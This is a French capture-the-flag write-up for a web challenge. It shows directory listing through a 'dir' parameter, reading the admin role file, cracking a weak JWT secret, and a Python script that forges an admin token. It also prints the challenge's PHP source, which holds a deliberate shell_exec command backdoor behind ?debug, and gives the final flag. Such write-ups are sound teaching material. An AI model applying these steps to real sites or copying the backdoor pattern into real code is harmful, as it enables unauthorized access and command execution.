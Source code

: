 ![Desc](images/desc.png)

# Write-Up

On part d’une page web qui nous permet de lister des ingrédients "pour une glace comme fait notre papi", la première vulnérabilité est une Local File Inclusion, en effet en modifiant le paramètre `dir=ingredients` par `dir=/`, on peut lister les fichiers et dossiers du dossier courant :

![LFI](images/list.png)

Voici le fichier admin.php :

```php
<?php
$canExecute = false;
$secret = trim(file_get_contents('jwt_secret.txt'));

$adminToken = trim(file_get_contents('role.txt'));

function base64url_encode($data) {
    return rtrim(strtr(base64_encode($data), '+/', '-_'), '=');
}

function base64url_decode($data) {
    return base64_decode(strtr($data, '-_', '+/'));
}

function verify_jwt_hs256($jwt, $secret) {
    $parts = explode('.', $jwt);
    if (count($parts) !== 3) return false;

    list($header_b64, $payload_b64, $sig_b64) = $parts;
    $expected_sig = base64url_encode(hash_hmac('sha256', "$header_b64.$payload_b64", $secret, true));

    if (!hash_equals($expected_sig, $sig_b64)) return false;

    return json_decode(base64url_decode($payload_b64), true);
}

function is_admin($jwt, $secret, $adminRole) {
    $payload = verify_jwt_hs256($jwt, $secret);
    if (!$payload) return false;
    return isset($payload['role']) && strtoupper(trim($payload['role'])) === strtoupper(trim($adminRole));
}

if (isset($_COOKIE['auth'])){
    if (is_admin($_COOKIE['auth'], $secret, $adminToken)) {
        
    
    $canExecute = true;
    }
}

if (!$canExecute) {
    $header = base64url_encode(json_encode(['alg' => 'HS256', 'typ' => 'JWT']));
    $payload = base64url_encode(json_encode(['role' => 'simple-utilisateur']));
    $signature = base64url_encode(hash_hmac('sha256', "$header.$payload", $secret, true));

    $jwt = "$header.$payload.$signature";

    setcookie('auth', $jwt, time() + 3600, "/");
    $_COOKIE['auth'] = $jwt;
}

if ($_SERVER['REQUEST_METHOD'] === 'GET' && isset($_GET['debug'])) {
    if (!$canExecute) {
        echo "<p>Tu ne peux pas executer de commandes avec debug tant que tu n'es pas authentifié en tant qu'admin</p>";
        exit;
    }

    $cmd = $_GET['debug'];
    $output = shell_exec($cmd);
    echo "<pre>$output</pre>";
    exit;
}
?>
```

Ce script récupère le secret JWT depuis `jwt_secret.txt` et le rôle admin attendu depuis `role.txt`, puis il vérifie le JWT du cookie, génère un token "simple-utilisateur" si l’utilisateur n’est pas admin, et n’autorise l’exécution de commandes via ?debug qu’en cas de correspondance entre le rôle du JWT et celui de `role.txt`.

L'idéal serait donc de pouvoir récupérer le secret jwt et le rôle admin pour forger le token admin, mais ce n'est pas vraiment possible via le `?dir`.

En revanche en indiquant uniquement `/role.txt` à partir de l'url on recupère le vrai rôle admin :

![ADMINROLE](images/adminrole.png)

> [!NOTE] 
> Après coup je me suis rendu compte que l'on pouvait également récupérer le secret jwt avec cette même méthode mais idiot comme je suis je n'ai même pas testé x)

Nous avons accès au token jwt avec le rôle "simple-utilisateur" au départ mais il faut le secret jwt pour forger le bon token pour le rôle admin, on peut utiliser jwt_tool pour cracker ce secret (ou hashcat) :

![SECRET](images/secret.png)

On utilise un script python pour forger le bon token maintenant que nous avons tout ce dont on a besoin :

```python
import hmac
import hashlib
import base64
import json

def b64url(data: bytes) -> str:
    return base64.urlsafe_b64encode(data).rstrip(b'=').decode()

def make_jwt(secret: str, role: str, header_b64: str = None) -> str:
    if header_b64:
        h_b64 = header_b64
    else:
        h_b64 = b64url(json.dumps({'alg':'HS256','typ':'JWT'}, separators=(',',':')).encode())
    p_b64 = b64url(json.dumps({'role':role}, separators=(',',':')).encode())
    sig = hmac.new(secret.encode(), f"{h_b64}.{p_b64}".encode(), hashlib.sha256).digest()
    s_b64 = b64url(sig)
    return f"{h_b64}.{p_b64}.{s_b64}"

if __name__ == '__main__':
    secret = 'icecream'
    role = 'PAPI-JE-SUIS-UN-ADMIN'
    print(make_jwt(secret, role))
```

![TOKEN](images/forge.png)

On remplace le token simple utilisateur par ce token admin dans notre navigateur et on regarde si l'on peut effectuer des commandes à l'aide de l'option `?debug` :

![ID](images/id.png)

Nous sommes admin, il ne reste plus qu'à trouver le flag maintenant, en fouillant un peu on le trouve dans secrets/.recette_de_papi :

![FLAG](images/flag.png)

**Flag**

`SHLK{Ic3_Cr3am_L0v3r}`
